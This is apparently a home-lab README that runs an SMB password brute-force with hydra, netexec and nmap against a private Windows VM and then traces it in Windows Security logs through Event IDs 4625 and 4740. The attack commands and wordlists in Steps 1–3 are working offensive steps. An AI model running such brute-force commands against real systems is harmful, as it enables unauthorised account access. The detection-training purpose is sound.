







# SMB Brute-Force Attack & Detection Lab

A hands-on home-lab exercise showing an SMB credential brute-force attack from
the **attacker side** (Kali Linux) and how that same attack appears in the
**Windows Security event log** on the target machine.

> ⚠️ **Scope:** Performed entirely against a private VM (`192.168.190.144`) on
> an isolated lab network that I own. For learning offensive/defensive
> security only — never run these tools against systems you don't have
> explicit permission to test.

---

## Lab Environment

| Role         | Details                                              |
|--------------|-------------------------------------------------------|
| Attacker     | Kali Linux — `netexec`, `hydra`, `nmap`                |
| Target       | `DESKTOP-H8MNLF7` (Windows 10 / Server 2019 build 19041 x64), SMB port 445 |
| Target IP    | `192.168.190.144`                                     |
| Attacker IP  | `192.168.190.141`                                     |

---

## Step 1 — Recon & wordlist prep (Kali)

Created small test wordlists and confirmed the target's SMB service/dialects before attacking.

```bash
echo -e "administrator\nadmin\ntestuser" > users.txt
echo -e "password123\nAdmin@123\nletmein\nQwerty1" > passwords.txt

ls -la users.txt passwords.txt
cat users.txt
cat passwords.txt

hydra -L users.txt -P passwords.txt smb://192.168.190.144
nmap --script smb-protocols -p445 192.168.190.144
```

`hydra` returned `invalid reply from target` on this attempt (SMB dialect
negotiation issue), so I switched to `netexec` for the actual brute-force.
The `nmap` scan confirms port 445 open and lists supported SMB dialects.

📷 

---

## Step 2 — Install brute-force tooling (Kali)

```bash
sudo apt install netexec -y
```

📷 


---

## Step 3 — Run the brute-force attack (Kali)

```bash
netexec smb 192.168.190.144 -u users.txt -p passwords.txt
```

Result: multiple `STATUS_LOGON_FAILURE` responses, and after enough failed
attempts against the `administrator` account, SMB returns
`STATUS_ACCOUNT_LOCKED_OUT` — confirming the target's account lockout policy
kicked in.

📷 


---

## Step 4 — Confirm the attack in Event Viewer (Target)

On the target, opened **Event Viewer → Windows Logs → Security** and filtered
for logon-related events. The log shows a burst of `Audit Failure` / Event ID
**4625** entries at the same time as the attack, followed by an Event ID
**4740** (account lockout).

📷 

---

## Step 5 — Inspect a failed logon event (4625)

Opened one of the `4625` events. The **Network Information** section shows the
exact source of the attack:

- **Workstation Name:** (blank)
- **Source Network Address:** `192.168.190.141` ← matches the Kali attacker IP
- **Source Port:** `33590`

This is the key detection detail — the source IP directly ties the failed
logons back to the attacking machine.

📷 

---

## Step 6 — Confirm the account lockout (4740)

Opened the Event ID **4740** entry — *"A user account was locked out."*
Logged by `SYSTEM`, Task Category: **User Account Management**.

📷
Scrolling down in the same event shows exactly which account got locked:

- **Account That Was Locked Out:** `DESKTOP-H8MNLF7\Administrator`

📷 

---

## Step 7 — Extract the relevant logs for reporting (Target)

Used PowerShell to pull just the `4625` and `4740` events out to a text file,
instead of manually scrolling the Event Viewer GUI:

```powershell
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4625,4740} |
    Format-List | Out-File "$env:USERPROFILE\Desktop\raw_events.txt"

notepad "$env:USERPROFILE\Desktop\raw_events.txt"
```

📷 

---

## Key Takeaways

- A burst of **Event ID 4625** from the same **Source Network Address** in a
  short time window is a strong brute-force indicator.
- **Event ID 4740** confirms the account lockout policy engaged and stopped
  further password guesses against that account.
- `Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4625,4740}` is a fast
  way to pull just the relevant events for a report or SIEM ingestion —
  no manual GUI scrolling needed.
- Correlating the attacker's source IP (`192.168.190.141`) from the 4625 event
  with tool output on the Kali side is what actually proves the two sides of
  the same incident.
